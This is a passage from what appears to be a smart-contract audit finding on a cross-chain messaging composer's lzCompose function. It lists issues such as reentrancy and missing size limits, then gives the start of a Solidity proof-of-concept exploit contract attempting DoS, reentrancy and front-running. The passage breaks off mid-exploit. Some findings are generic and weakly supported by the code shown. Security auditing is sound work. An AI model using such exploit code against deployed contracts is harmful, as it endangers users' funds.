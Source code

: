 ```solidity
        bytes32 _guid,
        uint16 _index,
        bytes calldata _message,
        bytes calldata _extraData
    ) external payable {
        // Potential reentrancy before state update
        bytes32 expectedHash = composeQueue[_from][_to][_guid][_index];
        bytes32 actualHash = keccak256(_message);
        if (expectedHash != actualHash) revert Errors.LZ_ComposeNotFound(expectedHash, actualHash);
        
        composeQueue[_from][_to][_guid][_index] = RECEIVED_MESSAGE_HASH;
        ILayerZeroComposer(_to).lzCompose{ value: msg.value }(_from, _guid, _message, msg.sender, _extraData);
    }
}
```

Key issues:
1. No message size limits
2. Insufficient address validation
3. Potential reentrancy vulnerabilities
4. Missing message expiry mechanism
5. Weak composition validation

### Impact
- Potential DoS through large messages
- Message composition manipulation
- Race conditions in delivery
- Possible reentrancy attacks
- Resource exhaustion risks

### Proof of Concept
```solidity
contract MessagingComposerExploit {
    function demonstrateIssues(
        address composer,
        address to,
        bytes32 guid
    ) external {
        // 1. Message size attack
        // Create a very large message to cause DoS
        bytes memory largeMessage = new bytes(1e6);  // 1MB message
        IMessagingComposer(composer).sendCompose(
            to,
            guid,
            0,
            largeMessage
        );
        
        // 2. Reentrancy attack
        // Create a malicious composer that reenters
        MaliciousComposer malicious = new MaliciousComposer();
        bytes memory message = "reentrant";
        IMessagingComposer(composer).sendCompose(
            address(malicious),
            guid,
            1,
            message
        );
        
        // 3. Race condition attack
        // Front-run message delivery
        bytes memory message1 = "race1";
```